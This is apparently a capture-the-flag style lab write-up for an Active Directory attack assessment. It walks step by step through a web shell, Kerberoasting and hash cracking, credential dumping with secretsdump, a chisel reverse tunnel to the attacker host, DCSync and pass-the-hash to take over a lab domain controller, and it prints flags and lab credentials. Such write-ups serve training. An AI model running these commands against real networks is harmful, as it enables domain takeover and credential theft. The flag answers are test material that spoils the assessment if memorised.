<div align='center'>

# **Lab 27: AD Enumeration & Attacks - Skills Assessment Part I** 

</div>

Known Information:
- Credential: admin:My_W3bsH3ll_P@ssw0rd!
- My IP: 10.129.195.58

## **Submit the contents of the flag.txt file on the administrator Desktop of the web server**

Navigate to http://10.129.195.58/uploads/antak.aspx and login with the credential 
`admin:My_W3bsH3ll_P@ssw0rd!`



We get a web shell



```powershell
type C:\Users\Administrator\Desktop\flag.txt
```



**Answer:** JusT_g3tt1ng_st@rt3d!


## **Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer**

Upload `Rubeus.exe` to the web server (upload to `C:\Windows\Temp`) and run the command

```powershell
cd C:\Windows\Temp; .\Rubeus.exe kerberoast /nowrap
```

Look for SPN `MSSQLSvc/SQL01.inlanefreight.local:1433`



We get the [hash](../docs/Assess_svc_sql_TGSTicket.txt) of the account `svc_sql`

- **Answer:** svc_sql



Reference: [Lab 14](Lab14_Kerberoasting-from_Windows.md)

## **Crack the account's password. Submit the cleartext value.**

Use `hashcat` to crack the hash

```zsh
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```



We get the password `lucky7`

- **Answer:** lucky7



## **Submit the contents of the flag.txt file on the Administrator desktop on MS01**

```powershell
$password = ConvertTo-SecureString "lucky7" -AsPlainText -Force; $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\svc_sql", $password); $s= New-PSSession -ComputerName MS01 -Credential $cred; Invoke-Command -Session $s -ScriptBlock { type C:\Users\Administrator\Desktop\flag.txt }
```



- **Answer:** spn$_r0ast1ng_on_@n_0p3n_f1re


Reference: [Lab 18](Lab18_Privileged_Access.md)

## **Find cleartext credentials for another domain user. Submit the username as your answer.**

**Find the IP address of the Domain Controller**

```powershell
1..254 | % {echo "172.16.6.$_"; ping -n 1 -w 100 172.16.6.$_} | Select-String ttl
```



We get 3 IP addresses: `172.16.6.3`, `172.16.6.50`, `172.16.6.100`

After some trial and error, we find the IP `172.16.6.50`

Upload `secretsdump.exe` to the web server (upload to `C:\Windows\Temp`)

Use `secretsdump.exe` to dump the credentials

```powershell
cd C:\Windows\Temp; .\secretsdump.exe INLANEFREIGHT/svc_sql:"lucky7"@172.16.6.50
```



We get a cleartext credential `tpetty:Sup3rS3cur3D0m@inU2eR`

- **Answer:** tpetty



Reference: [Lab 17](Lab17_DCSync.md)

## **Submit this user's cleartext password**

- **Answer:** Sup3rS3cur3D0m@inU2eR


## **What attack can this user perform?**

Upload `Powerview.ps1` to the web server (upload to `C:\Windows\Temp`)

Get the user's objectsid: `S-1-5-21-2270287766-1317258649-2146029398-4607`

```powershell
cd C:\Windows\Temp; Import-Module .\powerview.ps1 ; Get-DomainUser -Identity tpetty | select objectsid | fl
```



Use `Get-ObjectAcl` to enumerate the permissions of the user

```powershell
cd C:\Windows\Temp; Import-Module .\powerview.ps1; $sid="S-1-5-21-2270287766-1317258649-2146029398-4607"; Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ?{$_.SecurityIdentifier -match $sid}
```



This user has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Therefore, this user can perform DCSync attack.

- **Answer:** DCSync



Reference: [Lab 17](Lab17_DCSync.md)

## **Take over the domain and submit the contents of the flag.txt file on the Administrator Desktop on DC01**

**Set up chisel**

Linux attack host: 

Edit `/etc/proxychains4.conf`



```zsh
sudo chisel server --reverse -v -p 1234 --socks5 
```

Upload `chisel.exe` to the web server (upload to `C:\Windows\Temp`)

```powershell
cd C:\Windows\Temp; .\chisel.exe client -v <attacker's IP address:1234> R:socks 
```

Then, use `secretsdump.py` to obtain the administrator's hash: `27dedb1dab4d8545c6e1c66fba077da0`

```zsh
proxychains secretsdump.py INLANEFREIGHT/tpetty:"Sup3rS3cur3D0m@inU2eR"@172.16.6.3
```



Use `evil-winrm` to login to the domain controller

```zsh
proxychains evil-winrm -i 172.16.6.3 -u Administrator -H 27dedb1dab4d8545c6e1c66fba077da0
```



```powershell
type C:\Users\Administrator\Desktop\flag.txt
```



- **Answer:** r3plicat1on_m@st3r!

